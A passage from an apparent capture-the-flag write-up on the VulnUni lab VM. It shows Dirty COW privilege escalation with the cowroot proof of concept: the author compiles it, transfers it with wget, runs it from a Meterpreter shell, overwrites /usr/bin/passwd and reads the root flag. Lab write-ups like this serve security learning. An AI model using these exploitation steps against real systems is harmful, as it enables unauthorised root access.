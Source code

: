 <div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2020-06-02-vulnuni-ctf-writeup/vulnuni9.png">
    </div>
</div>
<div class="caption">
    The output of the BeRoot exploit suggestion script
</div>      

There are several dirty cow exploits available, each one uses a slightly different method of triggering the exploit. The GitHub wiki pages includes a list of POC’s. I tried a few of these however running the exploit caused the target VM to crash, a common problem experienced when using dirty cow. The best option I found was to use the SUID-based root exploit cowroot. I copied the POC to my machine, compiled it with gcc, and then transferred it to the target with wget. 

```bash
root@kali$ root@kali:~/Desktop# gcc -pthread cowroot.c -o cowroot 
```

With the exploit on the target machine, I made it executable with chmod and executed it. The dirty cow exploit upgraded my limited www-data shell to a full root shell. I quickly read the flag in the root directory with cat. 

```bash
root@kali$ msf >
meterpreter > shell
Process 2241 created.
Channel 0 created.
export TERM=xterm
export SHELL=bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
python -c ‘import pty;pty.spawn(“/bin/bash”)’
www-data@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzippingroot@kali$ ./cowroot
./cowroot
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 42824
Racing, this may take a while..
/usr/bin/passwd overwritten
Popping root shell.
Don’t forget to restore /tmp/bak
thread stopped
thread stopped
root@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzipping# cat /root/flag.txt
cat /root/flag.txt
ff19f8d0692fe20f8af33a3bfa6635dd
root@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzipping# whoami
whoami
root
root@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzipping# id
id
uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
root@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzipping#
```
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2020-06-02-vulnuni-ctf-writeup/vulnuni10.png">
    </div>
</div>
<div class="caption">
    Reading the final flag with root permission
</div>      
